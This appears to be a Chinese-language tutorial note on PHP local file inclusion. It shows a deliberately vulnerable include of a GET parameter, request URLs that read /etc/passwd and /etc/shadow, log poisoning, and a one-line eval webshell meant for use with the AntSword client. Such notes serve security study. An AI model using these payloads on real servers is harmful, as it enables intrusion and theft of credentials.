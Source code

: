 <center>文件包含</center>



[toc]





## 文件包含

> 文件包含: ==包含一个文件==
>
> 远程文件(危害大) 和本地文件

```php
# 本地文件
# index.php

$file = $_GET['file'];

if($file){
    include("$file");
    // include_once()
    // require()
    // require_once()

}else{
    echo 'file fail';
}
```

> url构造请求

```shell
http://127.0.0.1/?file=aa.php

# linux 服务器
http://127.0.0.1/?file=/var/www/html/public/aa.php
# linux的敏感信息
http://127.0.0.1/?file=/etc/passwd
http://127.0.0.1/?file=/etc/shadow
```



### 1.小技巧

> 输入到日志中

```shell
http://127.0.0.1/?file=/var/log/nginx/access.log
```

> 一句话木马

```shell
# aa.php
<?php eval($_POST['goer']); ?>

# 请求
http://127.0.0.1/?file=aa.php

# 下载使用中国蚁剑连接  https://github.com/AntSwordProject/antSword
yay -Ss antsword
```

> 如果没有文件上传，又想包含文件呢？

```shell
# 写入到日志中
http://127.0.0.1/?file=<?php eval($_POST['goer']); ?>
```





### 2. 提示

> 一般网站都包含一些共同文件

```shell
robots.txt
# 防止爬虫爬取的页面

# 熟悉服务器上资源
```





















